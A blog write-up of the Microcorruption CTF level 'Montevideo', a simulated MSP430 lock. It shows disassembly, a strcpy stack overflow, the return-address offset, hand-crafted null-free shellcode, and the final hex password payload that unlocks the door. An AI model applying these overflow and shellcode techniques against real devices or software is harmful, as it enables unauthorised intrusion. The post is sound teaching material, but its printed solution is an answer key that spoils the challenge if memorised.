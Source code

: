 ```yaml
---
title: "microcorruption - montevideo"
date: 2018-03-08T18:12:36+02:00
categories: 
- ctf
- exploit
- assembly
- microcorruption
- montevideo
---
```


{{< figure src="/images/microcorruption/microcorruption.png" >}}

This post is part of the series of solving [microcorruption.com](https://microcorruption.com) ctf challenges which continues from the [previous challenge](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) called _Whitehorse_. This challenge is titled _Montevideo_.

The challenge has the following description when you start:

> This is Software Revision 03. We have received unconfirmed reports of issues with the previous series of locks. We have reimplemented much of the code according to our internal Secure Development Process.

Cool. So this one is going to be unbreakable right? Lets see!
<!--more-->

## montevideo

Montevideo follows a similar code pattern when compared to some of the previous challenges we have done where a simple `main` routine calls `login`. Looking at `login` itself we can see a few new things:

```asm
44f4 <login>

[.. typical getsn call to get the password ..]

; strcpy, thats new!
451a:  b012 dc45      call  #0x45dc <strcpy>
451e:  3d40 6400      mov   #0x64, r13
4522:  0e43           clr   r14
4524:  3f40 0024      mov   #0x2400, r15

; memset is also an interesting one!
4528:  b012 f045      call  #0x45f0 <memset>
452c:  0f41           mov   sp, r15

; probably checks the password again
452e:  b012 4644      call  #0x4446 <conditional_unlock_door>
4532:  0f93           tst   r15

[.. some messages printed to tell if you unlocked or not ..]

4544:  3150 1000      add   #0x10, sp
4548:  3041           ret
```

The calls to `strcpy` and `memset` immediately jumped out at me here. I also figured since there is mention of the password size again the bug here might be related to a stack overflow too. To test this, I threw in like 30 `A`'s into the password field to see if the program breaks.

{{< figure src="/images/microcorruption/montevideo_stack_overflow.png" >}}

> insn address unaligned

Nice! The program counter (`pc`) has `0x4141` which most probably comes from our longer-than-its-supposed-to-be password we supplied. With this bug in mind, I quickly had a look at the other routines to see if there is anything interesting happening there. I set up a total of four breakpoints at the following locations:

- `0x4510` at `getsn`
- `0x451a` at `strcpy`
- `0x4528` at `memset`
- `0x452e` at `conditional_unlock_door`

Inspecting these routines manually, as well as the memory layout after each function had me draw the following conclusions:

- After `getsn` is done, the password buffer lives at `0x2400` in memory.
- Once `strcpy` is done, the password buffer at `0x2400` is copied into a buffer that starts at `0x43ef`.
- After `memset` is done, the password buffer at `0x2400` is zeroed out.
- After `conditional_unlock_door` with a too long password buffer, the stack is corrupt and the return address to `main` overridden.

It seems like this challenge is pretty much exactly the same as previous Whitehorse challenge? The `conditional_unlock_door` routine calls syscall `0x7e`, so with our overflow this is not a useful location to jump to as the "HSM" will validate the password. So, like the previous one, we just need a spot to slide in some shellcode, and them some actual shellcode that we have already built in the previous challenge.

Before we can supply the shellcode though, we need to find out where we are overriding and corrupting the stack for that `ret` instruction. For this, I just supplied a bunch of `A`'s and `B`'s and found that at position 17 and 18 again we have control over the programs execution flow.

{{< figure src="/images/microcorruption/monte_video_ret_control.png" >}}

Next, we choose a location in memory where our password buffer is as the address we should jump to (as a result of the `ret`) which should also be the start of our shellcode. I simply copied the unlock shellcode from [Whitehorse](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) which was `30127f00b0123245`. The shellcode itself needs a little work though as the address to the `INT` routine would be different here.

To help with the shellcode modifications we need to do, we can use the assembler/dissasembler provided on microcorruption.com [here](https://microcorruption.com/assembler). Grab the opcodes that form part of our shellcode, paste them into the input box and hit disassemble. Now, with the ASM mnemonics in the input box, update the address to `call` to `0x454c` as that is where it lives in this challenge. Finally, hit assemble and be presented with your shellcode :D

{{< figure src="/images/microcorruption/montevideo_shellcode_1.png" >}}

I figured a good spot to jump to our shellcode would be just after the `ret` address at `0x4400`, so, my password payload was now going to be:

```text
# ret is 0x4400, so 0044 little endian

[padding to ret] +  [ret] +    [shellcode]
---------------------------------------------
    41 * 16      +  0044  +  30127f00b0124c45 =

# final password payload
41414141414141414141414141414141004430127f00b0124c45
```

Sending this password payload, and inspecting the program after a breakpoint at `0x4548` left the program in a confusing state.

{{< figure src="/images/microcorruption/montevideo_strcpy_nullbyte.png" >}}

It was clear that the jump to `0x4400` was taken as the program counter (`pc`) was there, but, my shellcode was missing. Well... if you have ever dealt with `strcpy` before, you may have spotted that this was going to happen as soon as I chose `0x4400` as the address to jump to, as that address contains a nullbyte which is a string terminator for `strcpy`. Easy fix really, just move along two bytes to avoid a `0x00` byte. With a two byte shift, our password payload looks something like this:

```text
[padding to ret] +  [ret] +  [pad] + [shellcode]
-----------------------------------------------------
    41 * 16      +  0244  +  4242  + 30127f00b0124c45

414141414141414141414141414141410244424230127f00b0124c45
```

{{< figure src="/images/microcorruption/montevideo_null_byte_shellcode.png" >}}

Snap. We have made a little progress, but there is still a null byte in our shellcode because of the opcodes that form part of the `push #0x7f` instruction which is `3012 7f00`. We need to get rid of the `0x00` byte. We can simply modify the shellcode to use any other instructions that will eventually push the value `0xf7` to the stack. Think of things like moving a large value into a register, performing arithmetic and then moving the resultant register value onto the stack instead of the original value as is.

I used existing instructions in the program as a reference for ideas on how I can modify the shellcode to avoid null bytes. This was the final shellcode I got to work using the disassembler [here](https://microcorruption.com/assembler):

```asm
mov     #0x117e, r9
sub     #0x10ff, r9
push    r9
call    #0x454c
```

First, I took a large 2 byte value of `0x117e` and moved that to `r9`. I then took a calculator and subtracted the desired value of `0x7f` from `0x117e` and got to `0x10ff`. That resulted in my second instruction of `sub #0x10ff, r9` which should leave the value `0x7f` in register `r9`. Finally, just push `r9` onto the stack and call `INT`.

{{< figure src="/images/microcorruption/montevideo_final_shellcode.png" >}}

So now, my final password payload looks as follows:

```python
python -c "print('41' * 16 + '0244' + '4242' + '39407e113980ff100912b0124c45')"
414141414141414141414141414141410244424239407e113980ff100912b0124c45
```

{{< figure src="/images/microcorruption/montevideo_unlock.png" >}}

Works! `r9` ends up as `0x7f`, pushed to the stack and `INT` is called to unlock the lock.

## solution

Enter `414141414141414141414141414141410244424239407e113980ff100912b0124c45` as hex encoded input.

## other challenges

For my other write ups in the microcorruption series, checkout [this](https://leonjza.github.io/categories/microcorruption/) link.
